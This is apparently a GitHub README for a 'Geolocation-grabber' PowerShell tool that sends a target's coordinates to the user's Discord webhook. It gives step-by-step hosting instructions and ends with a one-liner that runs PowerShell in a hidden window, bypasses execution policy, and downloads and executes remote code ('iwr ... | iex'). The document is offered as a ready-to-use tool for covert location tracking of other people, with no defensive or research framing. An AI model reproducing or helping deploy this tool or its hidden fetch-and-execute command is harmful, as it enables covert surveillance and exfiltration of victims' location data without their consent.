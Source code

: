 # Geolocation-grabber
Sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>Download geolocationGraber.ps1.txt<p/>
<p>Edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>Save <p/>
<p>Create a new repo in public <p/>
<p>Add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>Click geolocationGraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>Click the pen<p/>
<p>Delete .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>Commit changes <p/>
<p>You should be left with geolocationGraber.ps1<p/>
<p>Click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>Click raw<p/>
<p>Copy that link <p/>
<p><p/>
<p>Paste that link in the line below where it says paste here <p/>
 ```
 PowerShell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex 
 ``` 
